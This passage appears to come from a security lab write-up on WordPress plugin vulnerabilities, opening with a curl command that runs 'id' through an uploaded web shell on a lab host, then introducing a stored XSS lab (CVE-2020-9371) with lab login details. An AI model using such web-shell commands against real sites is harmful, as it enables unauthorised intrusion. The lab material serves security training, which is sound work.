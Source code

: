 `curl 'https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=id'`:
```
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

### WordPress Plugin Vulnerabilities: Stored XSS

#### Lab Environment

**WordPress Appointment Booking Calendar Stored XSS**

In this exercise, the attacker has admin access already so there is nothing more to be done. However, looks like the <u>admin access does lead to an XSS attack</u>. So you can try to find this XSS as a purely academic exercise.

<u>WordPress Appointment Booking Calendar plugin (before 1.3.35) is vulnerable to Stored Cross-Site Scripting documented in CVE-2020-9371</u>.

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "admin"
- Password: "password1".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution

![Lab - WordPress Plugin Stored XSS 1](./assets/08_cms_security_testing_lab_wordpress_plugin_stored_xss_1.png)
